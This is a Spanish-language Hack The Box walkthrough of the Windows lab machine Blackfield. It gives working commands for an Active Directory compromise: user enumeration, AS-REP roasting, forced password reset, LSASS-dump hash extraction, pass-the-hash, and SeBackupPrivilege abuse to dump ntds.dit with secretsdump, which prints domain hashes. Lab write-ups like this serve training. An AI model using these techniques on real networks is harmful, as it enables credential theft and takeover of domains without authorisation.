# Blackfield


| Plataforma | Rating | Sistema Operativo |
|------------|------------|-------------------|
| Hack The Box | ⭐⭐⭐⭐☆ | Windows |

---

# 📋 Información

- **IP:** `10.129.229.17`
- **Objetivo:** Obtener acceso y escalar privilegios hasta `NT/AUTORITY SYSTEM`.

---

# 🔍 Reconocimiento

## Descubrimiento de puertos

Siempre hay que empezar escaneando los puertos de la máquina víctima

```bash
nmap -Pn -p- --min-rate 5000 -sS -n -vvv <IP> -oN allPorts
```



---

## Enumeración de servicios

```bash
nmap -sCV -p<PUERTOS> <IP> -oN services
```
```text
Tenemos activos los siguientes puertos:
- 88: Kerberos
- 53: DNS
- 135: RPC
- 445: SMB
- 5985: Winrm
```



---

# 🌐 Enumeración SMB

Vamos a enumerar el protocolo smb en busca de información interesante con netexec



Vemos que es un windows server 2019 y que tenemos un dominio llamado **blackfield.local**
Añadiremos el dominio al archivo /etc/hosts.

Ahora vamos a enumerar con una NULL session poniendo cualquier usuario los permisos que tenemos en smb.

```bash
smbmap -H <IP> -u 'test'
```


Vemos que tenemos permisos para ver el profiles$ por lo que podemos listar los usuarios que usan este servicio.
Los copiamos de la siguiente forma:

```bash
smbmap -H 10.129.229.17 -u 'test' -r 'profiles$' | awk 'NF{print $NF}' > lista_usuarios
```

Ahora tenemos que entrar al archivo y borrar las primeras lineas que sobran 



# 🦮 Kerbrute
Ahora tenemos una lista, vamos a comprobar los usuarios válidos del dominio, para ello usaremos la herramienta kerbrute

```bash
kerbrute --dc 10.129.229.17 -d blackfield.local userenum lista_usuarios
```



Vemos que un usuario nos da un TGT, no le vamos a hacer mucho caso a eso, lo que vamos a hacer es apuntarnos los usuarios encontrados en otra lista.

# 🎯 ASREPROAST

Ahora vamos a hacer un ataque ASREPROAST para intentar conseguir un TGT, cuando lo consigamos lo descifraremos con la herramienta john.



Ahora que tenemos un usuario y credencial podemos probar un Kerberoasting attack

```bash
$ impacket-GetUserSPNs 'blackfield.local/support:#00^BlackKnight'
Impacket v0.11.0 - Copyright 2023 Fortra

No entries found!
```
Pero en este caso no nos da un TGS

Con netexec vamos a comprobar si el usuario y las credenciales del smb son válidas

```bash
❯ netexec smb 10.129.229.17 -u 'support' -p '#00^BlackKnight'
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
```
En este caso pone un + y eso significa que si son válidas. Si pusiera pwned con impacket-psexec podríamos crearnos una consola de comandos.

# 🌐 Enumeración smb 2

Ahora que tenemos un usuario vamos a ver si tiene algo en el directorio profiles

```bash
❯ smbmap -H 10.129.229.17 -u 'support%#00^BlackKnight' -r 'profiles$/support'
[+] Guest session   	IP: 10.129.229.17:445	Name: blackfield.local                                  
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	profiles$                                         	READ ONLY	
	.\profiles$support\*
	dr--r--r--                0 Wed Jun  3 18:47:12 2020	.
	dr--r--r--                0 Wed Jun  3 18:47:12 2020	..
```
Pero vemos que no es el caso.

Vamos a usar una herramienta llamada ldapdomaindump que sirve para dumpear información del dominio cuando tenemos un usuario y credenciales válidas

```bash
ldapdomaindump -u '<DOMINIO>\<USUARIO>' -p '<CONSTRASEÑA>' <IP>
```

Con esto se nos generarán varios archivos html.
Ahora nos montamos un servidor web para poder verlos correctamente

```bash
python3 -m http.server 80
```
Y vamos a http://127.0.0.1/domain_users_by_group.html#cn_Administrators
Aqui podemos ver los usuarios administradores del dominio


Si subimos un poco veremos el usuario que tiene permisos de backup y de escritorio remoto.


Si supieramos la contraseña del usuario svc_backup podriamos usarlo para entrar al sistema por evil-winrm.

# 🩸 Neo4j y bloodhound

Vamos a usar la herramienta bloodhound que funciona con neo4j para visualizar mejor la información del active directory que corre por detrás de la máquina
Para instalarlo en parrot podemos seguir los pasos de esta página 
https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart
Cuando lo arranquemos vamos a usar la herramienta bloodhound.py para sacar información del AD

```bash
python3 bloodhound.py -c all -u '<USUARIO>' -p '<CONTRASEÑA>' -d <DOMINIO> -ns <IP>
```
Con todo lo que nos dan lo subimos a la web http://localhost:8080

Ahora buscamos el usuario support que es el que tenemos la contraseña para ver que tipo de permisos tiene.
Si investigamos un poco vemos que el usuario support puede cambiarle la contraseña al usuario audit2020 por lo que nos podemos hacer con el.



Vamos a aprovechar que tenemos el rpc abierto y a través de ahi cambiarle la contraseña al usuario.

```bash
net rpc password <USUARIO_CAMBIAR_CONTRASEÑA> -U '<USUARIO_CON_PERMISOS>' -S 10.129.229.17
```
Nos pide una contraseña y tiene que tener una cierta regla de seguridad. Nos bastará con la contraseña
test123$¡



- - - 

# 🌐 Salto de usuario

Ahora tenemos control del usuario audit2020.
Vamos a listar los recursos compartidos con smbmap



Tenemos un recurso llamado forensic, vamos a verlo.
Luego vemos otro recurso llamado memory_analysis que también lo listaremos.



Aqui vemos un archivo interesante llamado lsass.zip.
Este archivo hay veces que nos reporta hashes del sistema de algunos usuarios.
Descargamos el archivo y lo extraemos.
Si le hacemos un file veremos el tipo que es.

```bash
$ file lsass.DMP
lsass.DMP: Mini DuMP crash report, 16 streams, Sun Feb 23 18:02:01 2020, 0x421826 type
```
Y es mini dump. Ya con esto podemos usar una herramienta llamada pypykatz



Vemos que nos dan un hash NT del usuario svc_backup. Con esto vamos a ver si nos podemos autenticar en winrm

```bash
netexec winrm 10.129.229.17 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
``` 


Pone pwned asi que nos podremos conectar al winrm de la siguiente forma.

```bash
evil-winrm -i 10.129.229.17 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```

- - -

# 🚀 Escalada de privilegios

Hacemos un whoami /priv para listar los privilegios.
Vemos que tenemos el privilegio **SeBackupPrivilege**

Vamos a crearnos un directorio en C:\ llamado Temp y nos vamos a hacer un backup de system.

```bash
cd C:\
mkdir Temp
cd Temp
reg save HKLM\system system
```

Ahora vamos a hacer una copia del directorio NTDS.
Para ello nos tenemos que crear una unidad logica llamada por ejemplo z:
En nuestra máquina local nos vamos a crear un archivo llamado test.txt con el siguiente contenido

```text
set context persistent nowriters (espacio)
add volume c: alias prueba (espacio)
create (espacio)
expose %prueba% z: (espacio)
```
(Tenemos que dejar un espacio detras de cada línea sino no funcionará)

Ahora volvemos a la víctima y lo subimos con upload

```bash
upload /home/enriquerc/maquina/test.txt
```
Ahora usamos la herramienta diskshadow

```bash
C:\Temp> diskshadow.exe /s c:\Temp\test.txt
```
Ahora nos podemos crear una copia del ntds.dit en caso de estar en el dominio o la SAM si estamos en un equipo sin dominio.

```bash
robocopy /b z:\Windows\NTDS\ . ntds.dit
```
Ahora nos descargamos en ntds.dit y el system

```bash
download C:\Temp\ntds.dit
download C:\Temp\system
```

Ahora con todos los archivos en el sistema usaremos la herramienta secretsdump para conseguir los hashes del dominio

```bash
$ impacket-secretsdump -system system -ntds ntds.dit LOCAL

Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:ebae81f9b7e7135bcc042f2be47f0762:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
```

Vamos a validar que sea ese con netexec y despues de ver que si es valido podemos entrar por el evil-winrm o con psexec de la siguiente forma

- PSEXEC:
```bash
impacket-psexec blackfield.local/administrator@10.129.229.17 -hashes :184fb5e5178480be64824d4cd53b99ee
```

EVIL-WINRM:
```
evil-winrm -i 10.129.229.17 -u 'administrator' -H '184fb5e5178480be64824d4cd53b99ee'
```
Ya con esto seremos administradores que equivale a NT/AUTORITY SYSTEM


